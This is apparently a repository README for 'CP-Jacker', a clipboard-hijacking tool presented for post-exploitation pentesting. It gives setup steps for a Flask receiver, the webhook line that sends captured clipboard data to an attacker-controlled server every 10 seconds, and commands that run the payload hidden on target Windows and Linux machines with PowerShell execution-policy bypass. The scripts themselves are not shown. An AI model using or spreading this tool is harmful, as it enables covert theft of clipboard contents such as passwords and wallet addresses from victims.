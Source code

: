 # CP-Jacker

Clipboard Hijacker Tool

Overview

This tool is designed for post-exploitation purposes in pentesting scenarios. It monitors and captures clipboard content on Windows and Linux systems, sending the collected data to an attacker-controlled server via HTTP POST requests.

The tool consists of:

win-payload.ps1 for Windows

linux-payload.ps1 for Linux


Both scripts require manual configuration of the server IP address generated by server.py before execution.


---

How It Works

1. Run server.py:
The Python server listens for clipboard data sent from the target systems.


2. Configure IP Address:
Replace the server IP address in the first line of win-payload.ps1 and linux-payload.ps1 with the IP generated by server.py.


3. Execute the Payload:
Run the PowerShell script on the target system to start capturing and sending clipboard data every 10 seconds.




---

Setting Up the Server

1. Install Flask if not already installed:

python3 -m pip install flask


2. Run the server:

python3 server.py


3. The server will display an IP address (e.g., http://10.0.0.5:5000). Use this IP to replace the placeholder in both payload files.




---

Manual IP Configuration

Open the payload file (win-payload.ps1 or linux-payload.ps1) in a text editor.
Update the first line with the correct server IP:

$webhook_url = "http://<Your_Server_IP>:5000/clipboard_receiver"

Replace <Your_Server_IP> with the actual IP displayed when running server.py.


---

Execution Commands

Windows Execution

Run the win-payload.ps1 script on the target machine:

powershell -NoP -NonI -W Hidden -Exec Bypass .\win-payload.ps1


---

Linux Execution

Run the linux-payload.ps1 script using PowerShell on Linux:

pwsh -NoProfile -NonInteractive -ExecutionPolicy Bypass -File ./linux-payload.ps1


---
